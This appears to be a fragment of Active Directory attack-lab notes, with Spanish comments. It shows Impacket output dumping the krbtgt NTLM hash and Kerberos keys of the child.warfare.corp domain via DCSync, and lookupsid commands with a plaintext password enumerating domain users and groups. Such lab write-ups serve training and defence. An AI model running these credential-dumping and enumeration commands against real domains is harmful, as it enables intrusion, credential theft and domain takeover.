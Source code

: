 ```bash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Calling DRSCrackNames for child\krbtgt 
[+] Calling DRSGetNCChanges for {1c0a5a45-4b61-4bdd-adfc-92982f35601d} 
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=krbtgt,CN=Users,DC=child,DC=warfare,DC=corp
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900:::
[+] Leaving NTDSHashes.__decryptHash
[+] Entering NTDSHashes.__decryptSupplementalInfo
[+] Leaving NTDSHashes.__decryptSupplementalInfo
[+] Finished processing and printing user's hashes, now printing supplemental information
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
krbtgt:aes128-cts-hmac-sha1-96:806d6ea798a9626d3ad00516dd6968b5
krbtgt:des-cbc-md5:ba0b49b6b6455885
[*] Cleaning up...



# El script lookupsid.py (parte de Impacket) sirve para hacer enumeración de usuarios y grupos en un dominio Windows usando la técnica de SID Brute Forcing.



lookupsid.py child/corpmngr:'User4&*&*'@child.warfare.corp

impacket-lookupsid child/corpmngr:'User4&*&*'@child.warfare.corp                                                    

```
└─$ impacket-lookupsid child/corpmngr:'User4&*&*'@child.warfare.corp                                                    
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at child.warfare.corp
[*] StringBinding ncacn_np:child.warfare.corp[\pipe\lsarpc]
    [*] Domain SID is: S-1-5-21-3754860944-83624914-1883974761
500: CHILD\Administrator (SidTypeUser)
501: CHILD\Guest (SidTypeUser)
502: CHILD\krbtgt (SidTypeUser)
512: CHILD\Domain Admins (SidTypeGroup)
513: CHILD\Domain Users (SidTypeGroup)
514: CHILD\Domain Guests (SidTypeGroup)
515: CHILD\Domain Computers (SidTypeGroup)
516: CHILD\Domain Controllers (SidTypeGroup)
517: CHILD\Cert Publishers (SidTypeAlias)
520: CHILD\Group Policy Creator Owners (SidTypeGroup)
521: CHILD\Read-only Domain Controllers (SidTypeGroup)
522: CHILD\Cloneable Domain Controllers (SidTypeGroup)
525: CHILD\Protected Users (SidTypeGroup)
526: CHILD\Key Admins (SidTypeGroup)
553: CHILD\RAS and IAS Servers (SidTypeAlias)
571: CHILD\Allowed RODC Password Replication Group (SidTypeAlias)
572: CHILD\Denied RODC Password Replication Group (SidTypeAlias)
1000: CHILD\CDC$ (SidTypeUser)
1101: CHILD\DnsAdmins (SidTypeAlias)
1102: CHILD\DnsUpdateProxy (SidTypeGroup)
1103: CHILD\WARFARE$ (SidTypeUser)
1104: CHILD\john (SidTypeUser)
1106: CHILD\corpmngr (SidTypeUser)
1107: CHILD\MGMT$ (SidTypeUser)
```
```